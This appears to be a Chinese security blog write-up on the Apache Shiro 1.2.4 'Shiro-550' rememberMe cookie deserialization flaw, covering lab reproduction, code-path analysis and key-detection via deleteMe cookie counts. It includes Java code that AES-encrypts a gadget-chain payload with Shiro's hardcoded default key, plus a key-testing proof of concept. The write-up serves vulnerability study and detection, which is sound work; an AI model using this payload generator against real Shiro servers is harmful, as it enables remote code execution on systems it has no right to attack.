









## 前言

>在 Shiro <= 1.2.4 中，AES 加密算法的key是硬编码在源码中，当我们勾选remember me 的时候 shiro 会将我们的 cookie 信息序列化并且加密存储在 Cookie 的 rememberMe字段中，这样在下次请求时会读取 Cookie 中的 rememberMe字段并且进行解密然后反序列化

## 漏洞复现

获取源码：

`git clone https://github.com/apache/shiro.git`

 切换到漏洞版本分支：

`git checkout shiro-root-1.2.4`

修改`shiro/sample/web/pom.xml`文件的`jstl`依赖，加上1.2版本号，不然会报错：

>无法在web.xml或使用此应用程序部署的jar文件中解析绝对uri：[http://java.sun.com/jsp/jstl/core]

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <version>1.2</version>
    <scope>runtime</scope>
</dependency>
```

配置tomcat，选择模块为`samples-web`



启动后，访问`login.jsp`，点击`Remember Me`，抓包登录请求：



往Cookie中添加`rememberMe`字段，内容为：

```java
public class AesEncode {
    public static void main(String[] args) {
        String exp="rO0...";
        byte[] cipher = Base64.getDecoder().decode(exp);
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aesCipherService = new AesCipherService();
        ByteSource byteSource =  aesCipherService.encrypt(cipher,key);
        //这里的toString()会调用base64encode
        System.out.println(byteSource.toString());
    }
}
```

其中exp为[CB链exp](https://theoyu.top/java/fundation/CTFInJava#%E6%B7%B1%E8%82%B2%E6%9D%AF)生成的base64字符串。



## 漏洞分析

Shiro550 源自于 Tim Stibbs 前辈在 Apache.org 上提交的一个 [Issue](https://issues.apache.org/jira/browse/SHIRO-550):

>在默认情况下 , Apache Shiro 使用 `CookieRememberMeManager` 对用户身份进行序列化/反序列化 , 加密/解密 和 编码/解码 , 以供以后检索 .
>
>因此 , 当 Apache Shiro 接收到未经身份验证的用户请求时 , 会执行以下操作来寻找他们被记住的身份.
>
>- 从请求数据包中提取 Cookie 中 rememberMe 字段的值
>- 对提取的 Cookie 值进行 Base64 解码
>- 对 Base64 解码后的值进行 AES 解密
>- 对解密后的字节数组调用 `ObjectInputStream.readObject()` 方法来反序列化.
>
>但是默认AES加密密钥是 "硬编码" 在代码中的 . 因此 , 如果服务端采用默认加密密钥 , 那么攻击者就可以构造一个恶意对象 , 并对其进行序列化 , AES加密 , Base64编码 , 将其作为 Cookie 中 rememberMe 字段值发送 . Apache Shiro 在接收到请求时会反序列化恶意对象 , 从而执行攻击者指定的任意代码 .

既然说`CookieRememberMeManager`是Apache Shiro的核心，那我们就直接拿它作为切入点，其继承于子类`AbstractRememberMeManager`，整体流程并不复杂：



## 漏洞检测

这里我想说一下，我理解的漏洞检测和漏洞利用的区别。

站在检测的角度，也就是我们只需要**Proof Of Concept**即可，至于能不能利用，有没有防护手段，那是其次的。

而要想利用，就得考虑很多因素，是否出网？不出网怎么回显？有没有RASP等防护设备等等。因为漏洞利用，只要一个环节出问题，就会功亏一篑。

而在shiro中，我们就可以利用Response里`Set-Cookie:`返回的`rememberMe=deleteMe`的数量，判断key是否正确。

当为GET请求时：(下图为正常反序列化，上图rememberMe后乱加了几个字符)



成功不返回rememberMe，失败返回一个。

当为POST请求时：



成功返回一个rememberMe，失败返回两个。

之所以失败会比成功多返回一个Set-Cookie头，是因为在decrypt的时候，失败会抛出异常：



回到最初的调用，会对异常进行捕获，走到`addCookieHeader`中



还有一个问题，漏洞复现我们弹计算器的时候，为什么还是返回了两个rememberMe?



在反序列化的时候，会默认有一个类型转换，导致抛出异常，所以我们构造的poc需要注意这一点：

```java
public static void main(String[] args)throws Exception {
    SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
    ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("./poc.ser"));
    obj.writeObject(simplePrincipalCollection);
    obj.close();
    String path = "./poc.ser";
    byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
    AesCipherService aes = new AesCipherService();
    ByteSource ciphertext = aes.encrypt(getBytes(path), key);
    System.out.printf(ciphertext.toString());
}
public static byte[] getBytes(String path) throws Exception{
    InputStream inputStream = new FileInputStream(path);
    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    int n = 0;
    while ((n=inputStream.read())!=-1){
        byteArrayOutputStream.write(n);
    }
    byte[] bytes = byteArrayOutputStream.toByteArray();
    return bytes;
}
```
